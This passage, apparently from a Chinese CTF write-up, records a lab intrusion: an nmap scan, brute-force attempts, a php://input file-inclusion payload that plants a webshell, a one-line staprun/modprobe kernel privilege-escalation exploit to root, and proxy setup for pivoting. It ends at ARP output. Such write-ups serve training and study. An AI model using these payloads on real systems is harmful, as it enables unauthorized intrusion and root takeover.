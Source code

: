 ```bash
Starting Nmap 7.60 ( https://nmap.org ) at 2018-04-27 08:33 CST
Nmap scan report for 192.168.5.10
Host is up (0.00097s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 4.3 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.2.3 ((CentOS))
111/tcp  open  rpcbind 2 (RPC #100000)
3306/tcp open  mysql   MySQL (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.80 seconds
```

看到开了22,80,111,3306四个端口。这里，我直接后台开了hrydra尝试爆破了下22和3306，可惜没拿到好的结果。

然后，突然发现AWVS扫描器给了一个高危漏洞提醒，发现这个站前台竟然直接存在文件包含漏洞。于是尝试`php://input`直接写webshell，拿下第一个web站。

```bash
http://shop.theyer.com/index.php?page=php://input
<?php phpinfo();?>
```

PS: 这其实是和预期解有差别，主要原因是一开始我没怎么看前端逻辑，外加AWVS异常给力，直接给了个高危，所以很暴力，直接获得了webshell。传统解法应该是先通过第一个www站（上面文件包含是shop站，）下载到一个apk，然后逆向得到第二个站shop的url，接着通过shop站获得权限。

用蚁剑控制我们的第一台肉鸡，能拿到第一个flag。

![1](https://moxiaoxi.info/img/post/429/1.png)

要拿第二个flag则需要提权。

```bash
[centos@localhost upload]$ uname -r
2.6.18-194.el5
```

linux版本很老，直接搜就搜kernel 2.6.18 提权就能得到很多payload。

```bash
#!/bin/bash
printf "install uprobes /bin/sh" > exploit.conf; MODPROBE_OPTIONS="-C exploit.conf" staprun -u root

```

现场使用了如上进行提权，提权到root，获得第二个flag。

#### 纵向渗透

纵向渗透首先要在第一台跳板机上架设代理。我们这里主要用shadowsocks在第一个跳板机上面架设了一个sock5代理，后续走该代理进行攻击。

不过，由于我当时环境有点问题，我另外临时架设了一个HTTP代理，进行一些简单的扫描。[mproxy](https://github.com/examplecode/mproxy)

通过ifconfig，可以知道第一台Centos服务器还有一个网卡，是6段的ip。

 ```bash
? (192.168.6.1) at 00:50:56:A6:FB:37 [ether] on eth1
? (192.168.6.15) at 00:50:56:A6:1D:B4 [ether] on eth1
? (192.168.6.16) at 00:50:56:A6:58:78 [ether] on eth1
? (192.168.6.17) at 00:50:56:A6:BD:AF [ether] on eth1
? (192.168.6.200) at 00:50:56:A6:53:3D [ether] on eth1

 ```
